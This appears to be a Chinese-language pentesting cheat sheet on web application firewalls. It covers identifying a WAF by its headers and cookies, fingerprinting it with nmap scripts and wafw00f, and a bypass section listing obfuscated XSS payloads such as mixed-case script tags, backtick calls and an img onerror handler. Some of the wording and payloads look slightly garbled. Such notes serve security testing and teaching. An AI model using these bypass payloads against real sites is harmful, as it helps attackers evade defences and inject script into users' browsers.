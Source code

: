 # Web Application Firewall (WAF)

## 手動識別 WAF
- WAF 的名稱Server 標題（例如Server: cloudflare）
- 與 WAF 相關的其他 HTTP 回應標頭（例如CF-RAY: xxxxxxxxxxx）
- 看似由 WAF 設定的 Cookie（例如回應標頭Set-Cookie: __cfduid=xxxxx）
- 提交惡意請求時的唯一回應代碼。 （例如412）
- 可以透過FIN/RST向伺服器發送 TCP 封包

## 自動化識別 WAF
1. Nmap
  - Nmap 腳本引擎 (NSE) 包含用於偵測和指紋辨識防火牆的腳本
  - $ nmap --script=http-waf-fingerprint,http-waf-detect -p443 example.com
2. WafW00f
  - 命令列實用程序
  - $ wafw00f example.com
3. WhatWaf

## 繞過WAF
- 更改有效載荷的大小寫 :
    - <sCrIpT>alert(XSS)</sCriPt> 
- 使用各種編碼、替換函數或字元 :
    - 在前面加上一個額外的「<」:  << script>alert(XSS)</script >
    - 刪除結束標籤 :  <script>alert(XSS) //
    - 使用反引號取代代號代替 : <script>alert`XSS`</script>
- 使用其他語法以及使用換行符或製表符。
    - 雙開尖括號 : java%0ascript:alert ( http.com 
    - 不常見的標籤 : <"STYLE>.classname{background-image:url( "javascript:alert(XSS)" );/STYLE">
    - 需要繞過: <"img/src=1/onerror=alert(0)">
    - 額外字符 : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa href=javascript:alert(1)>xss</a>


